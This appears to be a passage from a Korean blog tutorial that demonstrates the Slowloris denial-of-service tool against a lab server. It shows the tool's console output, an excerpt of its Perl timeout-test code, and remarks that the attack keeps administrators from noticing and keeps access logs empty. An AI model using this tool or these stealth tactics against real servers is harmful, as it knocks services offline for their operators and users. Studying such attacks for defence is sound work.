 이때 서버의 상태를 확인합시다.
기본으로 20개의 소켓을 생성, 20개의 쓰레드를 만들고 그 후 계속해서 패킷을 보내게 됩니다.
물론 정상적인 패킷은 아닙니다. OPEN된 연결을 유지하기위한 완전하지 않는 패킷이죠.

    #!plain
    Connecting to 192.168.25.33:80 every 100 seconds with 1000 sockets:
              Building sockets.
              Building sockets.
              Building sockets.
              Building sockets.
              ....
              ....
              Sending data.
    Current stats:     Slowloris has now sent 679 packets successfully.
    This thread now sleeping for 100 seconds...

              Sending data.
    Current stats:     Slowloris has now sent 733 packets successfully.
    This thread now sleeping for 100 seconds...
    
              Sending data.
    Current stats:     Slowloris has now sent 798 packets successfully.
    This thread now sleeping for 100 seconds...
              ....
              ....

이제부터 `timewait` 설정에 따라 세션을 회수합니다.
이래야 관리자가 눈치채지 못하겠죠.
이 시점에서 공격을 멈추지 않는 한 접속 로그는 볼 수 없습니다.
이에 대해서는 마지막 부분에서 다루겠습니다.

    #!perl
    # if ($test) {
    #   ....
    # 
        if ( print $sock "Connection: Close\r\n\r\n" ) {
            print "Okay that's enough time. Slowloris closed the socket.\n";
            print "Use $delay seconds for -timeout.\n";
            exit;
        }
        else {
            print "Remote server closed socket.\n";
            print "Use $delay seconds for -timeout.\n";
            exit;
        }
        if ( $delay < 166 ) {
            print <<EOSUCKS2BU;
    Since the timeout ended up being so small ($delay seconds) and it generally
    takes between 200-500 threads for most servers and assuming any latency at
    all...  you might have trouble using Slowloris against this target.  You can
    tweak the -timeout flag down to less than 10 seconds but it still may not
    build the sockets in time.
    EOSUCKS2BU
        }
    }
